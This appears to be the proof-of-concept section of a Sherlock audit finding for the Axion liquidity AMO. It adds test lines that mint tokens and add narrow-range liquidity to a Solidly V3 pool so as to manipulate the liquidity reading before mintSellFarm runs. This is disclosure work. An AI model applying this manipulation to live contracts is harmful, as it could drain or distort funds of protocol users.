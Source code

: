 ### PoC

Edit the test https://github.com/sherlock-audit/2024-10-axion/blob/main/liquidity-amo/test/SolidlyV3AMO.test.ts#L522-L553. See section with `// BEGIN ADDED LINES`.

```javascript
    describe("mintSellFarm", function() {
      it("Should execute mintSellFarm successfully when price is above 1", async function() {
        let limitSqrtPriceX96: bigint;
        const zeroForOne = usd2boost;
        if (zeroForOne) {
          limitSqrtPriceX96 = MIN_SQRT_RATIO + BigInt(10);
        } else {
          limitSqrtPriceX96 = MAX_SQRT_RATIO - BigInt(10);
        }
        const usdToBuy = ethers.parseUnits("1000000", 6);
        await testUSD.connect(admin).mint(user.address, usdToBuy);
        await testUSD.connect(user).approve(poolAddress, usdToBuy);
        await pool.connect(user).swap(
          user.address,
          zeroForOne,
          usdToBuy,
          limitSqrtPriceX96,
          1,
          deadline
        );

        
        // BEGIN ADDED LINES

        const boostToAdd = ethers.parseUnits("100000000", 18);
        await boost.connect(boostMinter).mint(user.address, boostToAdd);
        await boost.connect(user).approve(poolAddress, boostToAdd);
        const usdToAdd = ethers.parseUnits("100000000", 6);
        await testUSD.connect(boostMinter).mint(user.address, usdToAdd);
        await testUSD.connect(user).approve(poolAddress, usdToAdd);

        console.log(await pool.connect(user).liquidity());

        // add liquidity in the smaller range to increase uint128 currentLiquidity = ISolidlyV3Pool(pool).liquidity();
        // because .liquidity() only gives liquidity in range

        await pool.connect(user).mint(
          user.address,
          tickLower / 2,
          tickUpper / 2,
          ethers.parseUnits("10000000", 12),
          1,
          1,
          deadline
        );

        console.log(await pool.connect(user).liquidity());

        console.log(" user usd " + (await testUSD.connect(user).balanceOf(user)));
        // END ADDED LINES
        

        expect(await solidlyV3AMO.boostPrice()).to.be.gt(ethers.parseUnits("1.1", 6));
        await expect(solidlyV3AMO.connect(amo).mintSellFarm()).to.emit(solidlyV3AMO, "PublicMintSellFarmExecuted");
        expect(await solidlyV3AMO.boostPrice()).to.be.approximately(ethers.parseUnits(price, 6), 10);
```